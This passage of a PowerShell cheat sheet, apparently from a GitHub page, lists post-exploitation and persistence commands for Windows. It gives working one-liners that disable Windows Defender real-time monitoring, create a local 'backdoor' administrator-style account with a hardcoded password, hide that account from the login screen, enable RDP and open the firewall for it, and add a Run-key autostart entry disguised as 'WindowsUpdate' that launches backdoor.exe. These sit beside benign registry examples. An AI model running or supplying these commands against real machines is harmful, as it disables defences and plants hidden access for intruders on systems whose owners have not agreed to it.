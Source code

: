 ```powershell
# Disable Windows Defender (requires admin)
Set-MpPreference -DisableRealtimeMonitoring $true

# Check execution policy
Get-ExecutionPolicy -List
```

---

## 🏃‍♂️ Post-Exploitation & Persistence

### User & Privilege Operations
```powershell
# Create new local user
New-LocalUser -Name "backdoor" -Password (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force) -Description "System Account"

# Hide user from login screen
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "backdoor" -Value 0 -PropertyType DWord

# Enable RDP
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# Check if user is admin
([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
```

### Registry Operations
```powershell
# Navigate registry
Set-Location HKLM:\
Get-ChildItem

# Read registry value
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion" -Name "ProductName"

# Create registry key
New-Item -Path "HKLM:\SOFTWARE\MyApp" -Force

# Set registry value
Set-ItemProperty -Path "HKLM:\SOFTWARE\MyApp" -Name "Version" -Value "1.0"

# Backup registry key
reg export "HKLM\SOFTWARE\MyApp" C:\backup.reg

# Auto-start persistence
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "C:\Windows\System32\backdoor.exe"
```

---